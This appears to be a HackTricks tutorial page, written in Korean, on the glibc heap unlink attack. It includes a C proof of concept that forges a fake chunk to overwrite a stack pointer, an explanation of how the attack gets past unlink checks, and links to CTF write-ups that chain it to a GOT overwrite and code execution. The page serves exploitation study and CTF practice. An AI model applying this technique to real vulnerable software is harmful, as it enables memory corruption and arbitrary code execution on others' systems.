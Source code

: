 # Unlink Attack

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 기본 정보

이 공격이 발견되었을 때, 주로 WWW(Write What Where)를 허용했지만, 몇 가지 **검사가 추가되어** 공격의 새로운 버전이 더 흥미롭고 더 복잡하며 **쓸모없게** 되었습니다.

### 코드 예제:

<details>

<summary>코드</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* 공격은 tcaches가 사용되는 경우 작동하지 않음 (2.26 이후)

### 목표

이 공격은 **청크에 대한 포인터를 자신보다 3 주소 앞을 가리키도록 변경할 수 있게 해줍니다**. 이 새로운 위치(포인터가 위치했던 주변)에 다른 제어 가능한 할당/스택과 같은 흥미로운 내용이 있다면, 이를 읽거나 덮어써서 더 큰 피해를 줄 수 있습니다.

* 이 포인터가 스택에 위치해 있었다면, 이제 자신보다 3 주소 앞을 가리키고 사용자가 이를 읽고 수정할 수 있으므로, 스택에서 민감한 정보를 유출하거나 반환 주소를 수정할 수 있을 것입니다(아마도) 캔을 건드리지 않고.
* CTF 예제에서는 이 포인터가 다른 할당에 대한 포인터 배열에 위치해 있으므로, 3 주소 앞을 가리키도록 만들고 이를 읽고 쓸 수 있게 되면, 다른 포인터가 다른 주소를 가리키도록 만들 수 있습니다.\
사용자가 다른 할당도 읽고 쓸 수 있으므로, 정보를 유출하거나 임의의 위치(예: GOT)에 새로운 주소를 덮어쓸 수 있습니다.

### 요구 사항

* 몇 개의 청크를 생성하기 위해 메모리(예: 스택)에 대한 일부 제어가 필요합니다.
* 가짜 청크의 포인터를 설정하기 위한 스택 유출.

### 공격

* 두 개의 청크가 있습니다(청크1 및 청크2).
* 공격자는 청크1의 내용을 제어하고 청크2의 헤더를 제어합니다.
* 청크1에서 공격자는 가짜 청크의 구조를 생성합니다:
* 보호를 우회하기 위해 `size` 필드가 올바른지 확인하여 오류: `corrupted size vs. prev_size while consolidating`를 피합니다.
* 가짜 청크의 `fd` 및 `bk` 필드는 청크1 포인터가 저장된 위치를 각각 -3 및 -2의 오프셋으로 가리키도록 설정되어 있어 `fake_chunk->fd->bk` 및 `fake_chunk->bk->fd`가 메모리(스택)에서 실제 청크1 주소가 위치한 곳을 가리킵니다:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* 청크2의 헤더는 이전 청크가 사용되지 않음을 나타내고 가짜 청크의 크기를 포함하는 크기로 수정됩니다.
* 두 번째 청크가 해제되면 이 가짜 청크가 연결 해제되어 다음과 같은 일이 발생합니다:
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* 이전에 `fake_chunk->fd->bk` 및 `fake_chunk->bk->fd`가 같은 위치(청크1이 저장된 스택의 위치)를 가리키도록 설정되었으므로 유효한 연결 리스트였습니다. **두 개가 같은 위치를 가리키고 있기 때문에** 마지막 것(`fake_chunk->bk->fd = fake_chunk->fd`)만 **효과**를 가져옵니다.
* 이는 **스택에서 청크1에 대한 포인터를 스택에서 3 주소 앞에 저장된 주소(또는 바이트)로 덮어씁니다**.
* 따라서 공격자가 청크1의 내용을 다시 제어할 수 있다면, **스택 내부에 쓸 수 있게 되어 캔을 건드리지 않고 반환 주소를 덮어쓰고 지역 변수의 값과 포인터를 수정할 수 있습니다**. 심지어 스택에 저장된 청크1의 주소를 다른 위치로 수정하여 공격자가 청크1의 내용을 다시 제어할 수 있다면 어디든 쓸 수 있게 됩니다.
* 이는 **주소가 스택에 저장되기 때문에 가능했습니다**. 위험과 악용은 **가짜 청크에 대한 주소가 어디에 저장되는지에 따라 달라질 수 있습니다**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## 참고 문헌

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* CTF에서 unlink 공격을 찾는 것은 이상할 수 있지만, 이 공격이 사용된 몇 가지 작성물이 있습니다:
* CTF 예제: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* 이 예제에서는 스택 대신 malloc된 주소의 배열이 있습니다. unlink 공격이 수행되어 여기에서 청크를 할당할 수 있게 되며, 따라서 malloc된 주소 배열의 포인터를 제어할 수 있습니다. 그런 다음 이러한 주소의 청크 내용을 수정할 수 있는 다른 기능이 있어 GOT의 주소를 가리키고, 함수 주소를 수정하여 유출 및 RCE를 얻을 수 있습니다.
* 또 다른 CTF 예제: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* 이전 예제와 마찬가지로 할당 주소의 배열이 있습니다. unlink 공격을 수행하여 첫 번째 할당의 주소가 배열 시작 몇 위치 앞을 가리키도록 하고 이 할당을 새로운 위치에서 덮어쓸 수 있습니다. 따라서 다른 할당의 포인터를 GOT의 atoi를 가리키도록 덮어쓰고 이를 출력하여 libc 유출을 얻은 다음 atoi GOT를 원가젯의 주소로 덮어쓸 수 있습니다.
* unlink 공격과 매우 유사한 취약점을 악용하는 사용자 정의 malloc 및 free 함수가 있는 CTF 예제: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* FD 및 BK 포인터를 제어할 수 있는 오버플로우가 있으며, 이는 (사용자 정의) 해제됩니다. 또한 힙에는 exec 비트가 있어 힙 주소를 유출하고 GOT의 함수를 힙 청크로 가리키게 하여 실행할 쉘코드를 포함할 수 있습니다.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
